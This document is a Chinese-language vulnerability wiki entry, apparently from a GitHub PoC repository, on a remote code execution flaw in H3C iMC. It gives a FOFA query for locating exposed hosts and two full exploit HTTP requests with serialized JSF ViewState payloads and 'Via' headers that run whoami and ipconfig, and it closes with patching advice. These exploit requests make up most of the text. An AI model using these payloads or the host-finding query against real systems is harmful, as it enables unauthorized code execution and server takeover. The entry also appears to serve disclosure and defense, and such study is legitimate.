


# H3C iMC智能管理中心 远程代码执行漏洞(XVE-2024-4567)

# 漏洞描述

H3C iMC智能管理中心 /byod/index.xhtml、/selfservice/login.jsf、/rpt/reportpage/loginrpt.jsf等多个接口处存在远程代码执行漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。该漏洞利用难度较低，建议受影响的用户尽快修复。

影响版本

version < E0632H07

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：(title="用户自助服务" && body="/selfservice/javax.faces.resource/") || body="/selfservice/index.xhtml"

POC/EXP：

POST /byod/index.xhtml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2558.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Via: whoami

javax.faces.ViewState=8SzWaaoxnkq9php028NtXbT98DEcA...Uh57HB/L8xz6eq%2b4sy0rUOuOdM5ccd2J6LPx8c6%2b53QkrX...jpFKgVnp07bad4n6CCBW8l98QIKwByAhLYdU2VpB/voaa....2oU%2burahQDFE8mIaFvmwyKOHiwyovIHCVymqKwNdWXm3iHLhYEQXL4....k3z7MWm%2bwbV2Dc9TXV4rs8E6M7ZvVM3B0pORK8vAhd2iLBkgFhGHw9ZgOwifGnyMzfxlU....gG4chEOg57teuLurMPrulbEVBAEl7rRwobqvxb91sG%2bGMrGWFL5%2bwFvE56x7UEzHtE/o0IRtzTKi/EFnamrPT1046e7L8jABKDB/LjCX2qAOmqQkIz4gXrEFnHHYZ9LZc7t9ZZPNT...JZjummuZuror/zwPbnsApwXlYsn2hDAZ7QlOBunA3t7omeOTI5keWXvmOH8eoEEN//SlmQblwhBZ7kSHPvStq0ZciiPptEzVjQ/k/gU2QbCSc7yG0MFbhcJEDQj4yKyJ/yTnOOma....KuNzZl%2bPpEua%2b28h2YCKipVb5S/wOCrg%2bKD3DUFCbdWHQRqDaZyvYsc8C0X7fzutiVUlSB7OdGoCjub9WuW0d2eeDWZmOt3Wunms3SwAbE7R%2bonCRVS8tiYWF8qiQS%2bl0k8Gw/Hz6Njpfe0upLIAtPFNDuSf69qGg4isEmY2FtoSQTdD8vU0BdJatHrBArPgo9Qsp0jSJBlUz2OqteQg05PYO6gEBXVj/RiTBHI1/pOzlcE0wVZcLUHnxGNvckSCTiT....nWbkWGJ8AYCvrM0PHZ/BYcKKRf3rMHoIqcAN%2bORMhXcmAXRcvq29c5xqoOuvrMSJPDZmbZhcm/99crGJSO5HxXQder9WKm2tVBaDLEC9ulpWyICJYgfxayoWkt6vwPcq2Tn20vn5RDpfqJKLNLbrV8g7JDRUUyW%2b....R6PRNunKhfJHvHcXAZ73mkCUf7cMUbNhqCbLSGP/D%2bqpqWXk5ZWjsT4tQ9tFH9uvPIaNB7FlcFXI2I2A9oPoY0ltif%2bb8BdPXVfpuZq8boHE4hY%2b33BIl%2bIa%2bov6nyMmGIzCKYeRbfDJtk/45EXvink6BIgA/205la6vvqKTGQ32o1AtepBgKei....604cVvbEP7UKor09Gz61mryE4D%2biXG1prZGCT3LEtdASuCkmf4RTEc5wks2In3ElZSZl8zf3RsHA0dgbvrpnXe2wLPI%2bUCAGO%2biOG9/%2bbCQJQNFmykkyRbmslfcilUxZ%2bIg%2bQuOs9FlMod2ICrkktOFFeZWNeznx737S8H4Nf2%2bp2QNHY2I6GFGtWpqjeZ%2bGmb1euM5Tzi06eJ.......koPrjkDT9VPoxCgpRMQl06x7NShkos7BCI9fV1%2b17t5gWZvqAYzeQUsZLaiBXaZfuUtPuBmbq1re/dB/VgSOn4QX%2b8AwwDjtfazsHw4aIdh4e2a1y/Ou2ZiI//EzkwIBksY6CluuPgocdvtOfNiWcXsfYs3UKLmL/48A4Ls0OF1TrQK4UnfCYt.....1DGrwzfXnM9vLHznFaJenqvLY3yTiKN5SSVxvGwvhmp6PFW4Jj7G8NXdr/zN7HyC9Eg1Y1jKP7uiO%2bGM2U/etvMOCKwnfP2MnbznP378fZHf1H9yiVVrn%2bm%2b0u8PV.....2MsOTgS6B7C8ItflgSfJz5dkJ8IssRAcY%2bu/2QjrW95BBMSRPu2EaCUm1IpuszXEwHYgDizWPzDB0hSRgCEjncpGhPX3i10bK4/snBaBcAxAa1e2er2LDe/4WgaIwc9w2wKn3wXY5B87BKF5/Xq30....NNf6EMRrQ9154rEkCJb4IU4sFsTuyYlfZatlV%2bC2HM7u7FEbdVvr6yYK4oQqvfPmF5yRplwAYUQAvr1jwLbGYxhGaTy14UUrtvoyph5Sqebk2YTKjKX4U7xX5ha4YbyoVIMSRzdvB6YXDY3BId%2bgmMWZtTf2UE%2b9UAx/7g30pQNXA....FP1adq6ySd4x3dGVCe4YJcYe2gKWYVcWj5XPwUSt2fxdshzgFnjjqmRgxowH2u2nZU0xG539lnxIOlB

POC/EXP：

POST /selfservice/login.jsf HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2558.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Via: ipconfig

javax.faces.ViewState=8SzWaaoxnkq9php028NtXbT98DEcA...Uh57HB/L8xz6eq%2b4sy0rUOuOdM5ccd2J6LPx8c6%2b53QkrX...jpFKgVnp07bad4n6CCBW8l98QIKwByAhLYdU2VpB/voaa....2oU%2burahQDFE8mIaFvmwyKOHiwyovIHCVymqKwNdWXm3iHLhYEQXL4....k3z7MWm%2bwbV2Dc9TXV4rs8E6M7ZvVM3B0pORK8vAhd2iLBkgFhGHw9ZgOwifGnyMzfxlU....gG4chEOg57teuLurMPrulbEVBAEl7rRwobqvxb91sG%2bGMrGWFL5%2bwFvE56x7UEzHtE/o0IRtzTKi/EFnamrPT1046e7L8jABKDB/LjCX2qAOmqQkIz4gXrEFnHHYZ9LZc7t9ZZPNT...JZjummuZuror/zwPbnsApwXlYsn2hDAZ7QlOBunA3t7omeOTI5keWXvmOH8eoEEN//SlmQblwhBZ7kSHPvStq0ZciiPptEzVjQ/k/gU2QbCSc7yG0MFbhcJEDQj4yKyJ/yTnOOma....KuNzZl%2bPpEua%2b28h2YCKipVb5S/wOCrg%2bKD3DUFCbdWHQRqDaZyvYsc8C0X7fzutiVUlSB7OdGoCjub9WuW0d2eeDWZmOt3Wunms3SwAbE7R%2bonCRVS8tiYWF8qiQS%2bl0k8Gw/Hz6Njpfe0upLIAtPFNDuSf69qGg4isEmY2FtoSQTdD8vU0BdJatHrBArPgo9Qsp0jSJBlUz2OqteQg05PYO6gEBXVj/RiTBHI1/pOzlcE0wVZcLUHnxGNvckSCTiT....nWbkWGJ8AYCvrM0PHZ/BYcKKRf3rMHoIqcAN%2bORMhXcmAXRcvq29c5xqoOuvrMSJPDZmbZhcm/99crGJSO5HxXQder9WKm2tVBaDLEC9ulpWyICJYgfxayoWkt6vwPcq2Tn20vn5RDpfqJKLNLbrV8g7JDRUUyW%2b....R6PRNunKhfJHvHcXAZ73mkCUf7cMUbNhqCbLSGP/D%2bqpqWXk5ZWjsT4tQ9tFH9uvPIaNB7FlcFXI2I2A9oPoY0ltif%2bb8BdPXVfpuZq8boHE4hY%2b33BIl%2bIa%2bov6nyMmGIzCKYeRbfDJtk/45EXvink6BIgA/205la6vvqKTGQ32o1AtepBgKei....604cVvbEP7UKor09Gz61mryE4D%2biXG1prZGCT3LEtdASuCkmf4RTEc5wks2In3ElZSZl8zf3RsHA0dgbvrpnXe2wLPI%2bUCAGO%2biOG9/%2bbCQJQNFmykkyRbmslfcilUxZ%2bIg%2bQuOs9FlMod2ICrkktOFFeZWNeznx737S8H4Nf2%2bp2QNHY2I6GFGtWpqjeZ%2bGmb1euM5Tzi06eJ.......koPrjkDT9VPoxCgpRMQl06x7NShkos7BCI9fV1%2b17t5gWZvqAYzeQUsZLaiBXaZfuUtPuBmbq1re/dB/VgSOn4QX%2b8AwwDjtfazsHw4aIdh4e2a1y/Ou2ZiI//EzkwIBksY6CluuPgocdvtOfNiWcXsfYs3UKLmL/48A4Ls0OF1TrQK4UnfCYt.....1DGrwzfXnM9vLHznFaJenqvLY3yTiKN5SSVxvGwvhmp6PFW4Jj7G8NXdr/zN7HyC9Eg1Y1jKP7uiO%2bGM2U/etvMOCKwnfP2MnbznP378fZHf1H9yiVVrn%2bm%2b0u8PV.....2MsOTgS6B7C8ItflgSfJz5dkJ8IssRAcY%2bu/2QjrW95BBMSRPu2EaCUm1IpuszXEwHYgDizWPzDB0hSRgCEjncpGhPX3i10bK4/snBaBcAxAa1e2er2LDe/4WgaIwc9w2wKn3wXY5B87BKF5/Xq30....NNf6EMRrQ9154rEkCJb4IU4sFsTuyYlfZatlV%2bC2HM7u7FEbdVvr6yYK4oQqvfPmF5yRplwAYUQAvr1jwLbGYxhGaTy14UUrtvoyph5Sqebk2YTKjKX4U7xX5ha4YbyoVIMSRzdvB6YXDY3BId%2bgmMWZtTf2UE%2b9UAx/7g30pQNXA....FP1adq6ySd4x3dGVCe4YJcYe2gKWYVcWj5XPwUSt2fxdshzgFnjjqmRgxowH2u2nZU0xG539lnxIOlB

#
修复方案

1. 官方修复方案：

   请尽快联系厂商下载更新EIA组件至E0632H07及以上版本。官方通告链接：
   
   https://www.h3c.com/cn/Service/Online_Help/psirt/security-notice/detail_2021.htm?Id=134
   
   临时修复方案：
   
   确认不影响业务的前提下，可临时禁用EIA组件；
   
   如非必要，避免将资产暴露在互联网。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
